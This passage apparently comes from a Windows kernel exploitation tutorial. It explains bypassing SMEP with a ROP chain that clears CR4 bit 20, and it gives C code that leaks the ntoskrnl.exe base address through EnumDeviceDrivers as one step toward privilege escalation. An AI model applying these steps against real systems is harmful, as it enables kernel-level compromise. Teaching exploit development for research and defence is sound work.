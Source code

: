 Perfect we now have control of the return address. However, we've not won yet. We have some exploit mitigations which need to be taken into consideration.

The first mitigation we need to circumvent is Supervisor Mode Execution Prevention (SMEP), this is a hardware mitigation that restricts code that resides in user-mode from being executed in ring0. In essence this prevents EoPs that rely on executing a user-mode payload.

## SMEP Bypass
There's a few ways we can bypass SMEP but the main one (and the one we're going to use) is to construct a ROP chain that reads the content of CR4 and then flips the 20th bit of the register - upon doing so SMEP will be disabled and we can simply jump to our user-mode payload. 

???+ Attention 
    In this example we are going to use APIs that are only available to medium (or higher) intgreity levels. Namely, `EnumDeviceDrivers`. In a lot of EoP cases we will be at low level integrity, not medium in these cases you'll need a leak to get the base address of kernel modules. [^1]

[^1]: In the future I will publish an article which explains that process in more detail. However in this example we're just going to use `EnumDeviceDrivers`.

First we'll create a new function in our C code called `GetKernelBase` this function itself is fairly simple, all it will do is make a call to `EnumDeviceDrivers` and then get the first item from the returned array the first item will be the base address for `ntoskrnl.exe`. *The below code only includes changes*.

```C
#include <Psapi.h>

unsigned long long GetKernelBase(void)
{

    LPVOID  lpImageBase[1024];
    DWORD   lpcbNeeded;

    /* Get base address of first driver (ntoskrnl.exe) */
    printf("[+] Obtaining Driver Base Address!\n");
    BOOL DriversBase = EnumDeviceDrivers(lpImageBase, sizeof(lpImageBase), &lpcbNeeded);
    if (!DriversBase)
    {
        printf("[!] FATAL: Error enumerating device drivers!\n");
        exit(1);
    }

    /* Get name of first driver (ntoskrnl.exe) */
    char BaseName[1024] = {0};
    BOOL DriversBaseName = GetDeviceDriverBaseNameA(lpImageBase[0], BaseName, sizeof(BaseName));
    if (!DriversBaseName)
    {
        printf("[!] FATAL: Error getting drivers base name!\n");
        exit(1);
    }

    /* 
     * ntoskrnl.exe is the first module in lpImageBase.
     * typecast LPVOID -> unsigned long long
    */
    unsigned long long KernelBase = (unsigned long long)lpImageBase[0];

    printf("[*] Driver base name is: %s", BaseName);
    printf("[*] %s is located at: 0x%x\n", BaseName, KernelBase);

    return KernelBase;

}
```
